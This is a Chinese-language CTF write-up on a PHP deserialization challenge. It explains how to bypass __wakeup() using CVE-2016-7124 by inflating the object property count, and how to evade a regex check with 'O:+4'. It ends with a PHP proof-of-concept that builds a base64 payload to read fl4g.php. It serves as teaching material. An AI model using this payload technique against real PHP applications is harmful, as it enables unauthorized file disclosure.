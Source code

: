   分析：对于反序列化漏洞利用我们一般先从拿到 flag 的步骤往回分析至传参入口。然后重点是我们需要关注各个魔法函数，在`__destruct()`函数中可以高亮文件，然而这个 file 是受我们所控制的，也就是说我们可以通过改变 file 的值，获取到我们的 flag。但是我们发现在`__wakeup()`函数中如果不为 index.php 就赋值为 index.php，所以我们需要绕过这个函数。同时我们还需要绕过一个数字的正则匹配，然后将得到的序列化字符串进行 base64 解码。

<table><thead><tr><th>cve 编号</th><th>CVE-2016-7124</th></tr></thead><tbody><tr><td>影响版本</td><td>PHP5 &lt; 5.6.25</td></tr><tr><td>漏洞简述</td><td>当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup 的执行</td></tr></tbody></table>

正常的序列化：

```
//简化后的类，其实就只要留属性就行了
<?php

class Demo {
    private $file = 'fl4g.php'; 
}

$c = serialize(new Demo());

var_dump($c);
echo "<br/>";
var_dump(unserialize($c));

echo "<br/><br/><br/><br/>";
$c = str_replace(':1:',':2:',$c);

var_dump($c);
var_dump(unserialize($c));
?>
```

![](https://img-blog.csdnimg.cn/71e3dd0ab01344408e6da7647502e349.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBATkdDXjIyMzc=,size_20,color_FFFFFF,t_70,g_se,x_16)  
  通过结果我们可以看到修改属性的个数之后，无法反序列化，这就是外面绕过了魔法函数不符合安全原则，系统给我们提示的报错。这当然不影响我们操作。还有一点就是一个正则表达式的绕过。

> `绕过preg_match('/[oc]:\d+:/i', $var)`  
> 我们只要在类的名字长度前加上一个 + 即可。  
> `$c = str_replace('O:4','O:+4'，$c)`

最终的 POC：

```
<?php

class Demo {
    private $file = 'fl4g.php'; 
}
$c = serialize(new Demo());
$c = str_replace(':1:',':2:',$c);
$c = str_replace('O:4','O:+4',$c);
var_dump(base64_encode($c));

?>
```
